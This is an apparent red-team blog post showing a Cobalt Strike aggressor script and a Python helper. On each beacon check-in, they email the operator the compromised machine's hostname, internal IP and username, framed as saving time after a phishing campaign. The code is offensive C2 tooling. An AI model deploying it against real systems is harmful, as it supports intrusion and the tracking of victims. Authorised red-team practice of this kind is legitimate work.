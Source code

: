 ```yaml
---
layout: post
title: "Cobalt Strike Aggressor Script"
permalink: "cobaltscripts"
date: 14-07-2023
categories: Blog
---
```


Over the past few days I have been trying to get back into playing around with Cobalt Strike more to up my Red Teaming game. As part of that, and to get some practice, I thought I would try to write a simple aggressor script.

The sole purpose of the script would be to email me when a beacon checks in. I imagine after a phishing campaign is sent out, you don't want to be sitting by your screen constantly waiting for a beacon, so this might make life easier.

The two pieces of code required are:

- An aggressor script loaded into Cobalt Strike to monitor when a beacon checks in. This I simply called 'email.cna'.
- A Python script named 'emailme.py' that is called by the aggressor script to send an email on check in.


### Scripts

The aggressor script can be seen below, and is simply placed within the 'on beacon_initial' function which gets called on beacon check in. It then extracts some fields of interest from the beacon such as the IP, computer name and username and passes them to the Python email script.

**email.cna:**
{% highlight powershell %}
on beacon_initial {
    println("Initial Beacon Checkin: " . $1 . " PID: " . beacon_info($1,"pid"));

    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1,"internal")," ","_");
    $computerName = replace(beacon_info($1,"computer")," ","_");
    $userName = replace(beacon_info($1,"user")," ","_");
    $cmd = '/home/kali/emailme.py --computername ' . $computerName . " --internalip " . $internalIP . " --username " . $userName;
    exec($cmd);
}
{% endhighlight %}


Next up we have to build the Python script which I have also shown below. It is quite self explanatory but I guess some mail providers might require app passwords and the like, such as Gmail which might make it trickier.
If this is the case try to use a more basic email account if you have one that maybe offers you more control.


**emailme.py:**
{% highlight powershell %}
#!/usr/bin/env python  

import smtplib
import argparse
from email.mime.text import MIMEText

parser = argparse.ArgumentParser(description='beacon info')
parser.add_argument('--computername')
parser.add_argument('--internalip')
parser.add_argument('--username')
args = parser.parse_args()
computername = args.computername
internalip = args.internalip
username = args.username  

subject = "New Beacon Checkin"
body = "Checkin from Beacon with hostname:" + computername + ", with IP: " + internalip + " and from user: " + username
sender = "yourname@youremail.org"
recipients = ["test@testreceipt.com"]
password = "YourPassword"

def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = ', '.join(recipients)
    with smtplib.SMTP_SSL('smtp.yoursmtp.com', 465) as smtp_server:
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Message sent!")


send_email(subject, body, sender, recipients, password)
{% endhighlight %}

Finally the last thing to do is to load the Aggressor script into Cobalt Strike as shown below, by using the 'Script Manager' window.

<img alt="cs" src="/assets/img/CNA-LOADED.jpg"/>

The next time a beacon checks in you should receive an email that it has done so. This has been fun playing around with CS again and hopefully this saves you some time.

I think next up I might build a complete C2 infrastructure on Azure with redirectors back to the C2 hosted elsewhere to practice that aspect of Red Teaming. Stay tuned!
